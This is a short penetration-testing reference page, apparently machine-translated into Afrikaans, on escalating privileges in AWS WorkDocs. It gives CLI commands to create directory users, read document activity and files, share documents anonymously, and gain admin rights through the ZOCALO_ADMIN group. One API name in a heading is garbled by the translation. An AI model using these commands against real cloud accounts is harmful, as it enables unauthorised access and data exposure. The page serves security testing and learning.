 # AWS - WorkDocs Privesc

## WorkDocs

Vir meer inligting oor WorkDocs, kyk:

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Skep 'n gebruiker binne die aangeduide Gids, dan sal jy toegang hê tot beide WorkDocs en AD:
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Die lêers mag sensitiewe inligting bevat, lees hulle:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

As jy nie toegang het om iets te lees nie, kan jy dit net toeken.
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:VoegGebruikerByGroep`

Jy kan 'n gebruiker as 'n administrateur instel deur dit in die groep ZOCALO_ADMIN te plaas.\
Volg die instruksies vanaf [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Meld aan met daardie gebruiker in workdoc en kry toegang tot die administrateurspaneel in `/workdocs/index.html#/admin`

Ek het nie 'n manier gevind om dit vanaf die opdraglyn te doen nie.

